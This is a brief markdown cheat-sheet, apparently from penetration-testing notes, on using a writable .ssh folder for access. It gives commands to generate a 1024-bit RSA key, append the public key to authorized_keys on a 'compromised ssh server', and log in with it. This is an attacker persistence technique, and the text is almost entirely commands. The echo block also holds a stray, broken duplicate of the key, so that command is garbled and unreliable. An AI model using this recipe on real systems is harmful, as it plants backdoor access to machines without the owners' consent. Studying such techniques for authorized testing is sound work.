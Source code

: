 # Writable .ssh folder

## add your public keys and connect to host via ssh
### generate keys
`ssh-keygen -t rsa -b 1024 -f testkeys`

### add keys to compromised ssh server
#### copy
`cat testkeys.pub | xclip -selection c`

#### paste
```
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAAAgQDAN9xF6yh8o58+XaXtig86wCBgAh304mw1WSl4xTMo6s8G7I4q2ghXpHh4VpggPbi7+Q2VfbQuBWQeb4sKHTOh6qvXjgpFdqVwbgHrstxVvVC7ZoRSex+qDRumb2TmhRhNb1IiVMdNaPvZL/vzPzNIrW/xdceg/uL1o3MCxDYk7w== kali@kali
<iVMdNaPvZL/vzPzNIrW/xdceg/uL1o3MCxDYk7w== kali@kali" >> authorized_keys
```

### connect to host
`ssh -i testkeys user@host`
